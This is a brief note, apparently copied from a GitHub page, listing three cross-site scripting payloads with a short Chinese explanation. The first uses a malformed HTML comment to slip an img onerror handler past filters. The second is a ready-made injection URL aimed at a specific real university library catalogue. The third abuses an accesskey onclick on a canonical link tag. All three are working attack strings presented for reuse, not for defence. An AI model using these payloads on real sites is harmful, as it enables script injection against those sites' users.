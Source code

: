 1.
`<--<img/src= onerror=alert(x)> --!>`
在标准 HTML 中，注释通常是用 <!-- 开始，用 --> 结束的
有些防护系统可能认为这是注释，然后就忽略掉
而浏览器在处理非标准的html时候可能会忽略这些小错误，进而执行注入的代码
```
2. https://alephprod.library.nd.edu/F/?func=scan&scan_code=020&scan_start=0131487876%22%3E%3Cimg%20src=1%20onerror=alert()%3E\\
```

```
3. <link rel="canonical" accesskey="X" onclick="alert(1)" />
```
